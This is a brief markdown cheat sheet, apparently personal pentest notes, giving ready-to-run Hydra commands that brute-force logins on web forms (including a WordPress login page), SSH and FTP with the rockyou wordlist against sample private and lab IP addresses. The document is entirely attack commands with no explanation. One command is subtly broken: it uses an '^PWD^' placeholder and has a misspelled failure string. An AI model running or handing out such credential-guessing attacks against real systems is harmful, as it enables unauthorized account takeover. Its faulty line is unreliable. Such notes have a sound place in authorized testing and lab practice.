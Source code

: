### Hydra Bruteforcing Commands

#### Post Web Form
```
hydra -l username -P <password_list> 192.168.1.1 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The passowrd you entered for the username" -t 30
```
```
hydra -l username -P /usr/share/wordlists/rockyou.txt 192.168.1.1  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.95.51 http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid:H=Cookie: security=low; PHPSESSID=ms2hav3kj1jdenpsvfpj7c66v4"
```

#### SSH
```
hydra -l username -P /usr/share/wordlists/rockyou.txt 192.168.1.1 ssh -vv -t 4
```
#### FTP
```
hydra -l user -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.1
```
